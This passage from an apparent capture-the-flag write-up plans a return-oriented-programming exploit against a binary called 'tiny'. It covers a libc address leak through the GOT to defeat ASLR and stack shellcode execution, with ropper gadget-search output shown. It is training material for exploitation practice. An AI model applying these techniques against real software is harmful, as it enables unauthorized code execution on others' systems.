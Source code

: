 We have overwritten RIP with our 0x424242424242 bytes.

# Futher exploitation plan {#futher-exploitation-plan id="26775ebc-2728-46e9-a585-b5abdb785086"}

Plan is: 1. Find gadget for pop rdi; pop rsi; ret. 2. Return to
write@plt to leak read@got address so we can use that address from GOT
to calculate base address of libc ( Remmber ASLR is ON). 2. Find gadget
to push RSP so we can execute out shellcode from stack. We don\'t need
to overwrite system entry on GOT and return to that because NX is off.
3. Send another payload containing out shellcode, push RSP and check if
it gets exeuted

To find gadgets, i\'ve used ropper ( [Ropper @
github](https://github.com/sashs/Ropper) ), you can use whatever you
want. Lets\'s find out which gadgets can we find inside tiny binary.

``` bash

root@--name:/ctf/work# ropper --file tiny --search "% ?di; ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: % ?di; ret

[INFO] File: tiny
0x00000000004011dd: pop rdi; ret;
```

In tiny i found only pop RDI; ret. And we need pop RDI; pop RSI; ret. So
we have to chain them. Next on the list is pop RSI, and i find one which
pops RSI, then pop R15 and returns. That\'s good enough, since we are
gona put some trash in R15 because we don\'t need it.

``` bash

root@--name:/ctf/work# ropper --file tiny --search "pop ?si"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop ?si

[INFO] File: tiny
.....
0x00000000004011db: pop rsi; pop r15; ret; 
```

Last one, push RSP, which we need for last stage of exploit, we are
going to look for inside libc.so.6 which is downloaded from the server,
because i couln\'t find one in tiny binary. Note: we will find offset to
it, which needs to be added to libc base address later.

``` bash

root@--name:/ctf/work# ropper --file libc.so.6 --search "push rsp"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 42%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: push rsp

[INFO] File: libc.so.6
......
0x0000000000023ad1: push rsp; ret; 
......
```
